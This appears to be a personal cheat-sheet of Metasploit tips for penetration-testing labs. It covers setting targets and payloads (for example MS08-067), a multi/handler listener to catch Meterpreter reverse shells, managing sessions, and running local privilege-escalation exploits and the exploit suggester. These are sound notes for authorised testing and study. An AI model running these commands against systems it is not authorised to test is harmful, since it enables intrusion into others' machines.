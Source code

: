 # Metasploit
This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options
Metasploit is so derp-easy that you can usually exploit a machine by typing `show options`, setting your machine with `LHOST` and setting the target with `RHOST`. 

Sometimes an exploit doesn't work because of an unusual configuration or path issue, which you can set with:
```show advanced``` 

There is usually a `verbose` setting in this section. Setting `verbose = true` may help you understand why an exploit isn't working.

You might also need to set the correct target:
```
show targets
set target [target number]
``` 

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack. 

Sometimes you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work. Check and modify the payload:
```
show payloads
set payload [whatever]
```

## Meterpreter
To catch shells using meterpreter:
```
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```
If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Sessions
Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:
```
sessions -l
```
To enter a session:
```
sessions -i [session number]
```
To enter a shell from a session (not use meterpreter commands):
```
shell
```
To exit the shell and return to meterpreter, type `exit`.

### Local exploits
Once you have a meterpreter shell, you can scan for local exploits and run them. 

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:
```
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```
You'll need to select a session where the exploit will be run.

The one useful exception I've noticed is the exploit suggester for Windows which can be run from the meterpreter prompt:

```
meterpreter > run /post/multi/recon/local_exploit_suggester
```

